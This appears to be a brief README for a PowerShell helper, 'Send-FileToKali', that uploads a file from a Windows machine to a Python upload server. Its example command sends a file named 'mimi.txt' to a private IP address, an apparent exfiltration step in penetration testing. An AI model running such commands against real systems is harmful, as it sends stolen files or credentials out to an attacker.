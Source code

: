 # USAGE
```
Send-FileToKali -FilePath <abosolute_path> -UploadUrl <python3 http server with upload url>
```
### Example
```
Send-FileToKali -FilePath "C:\Program Files\temp\mimi.txt" -UploadUrl "http://172.16.99.11:8000/"
```
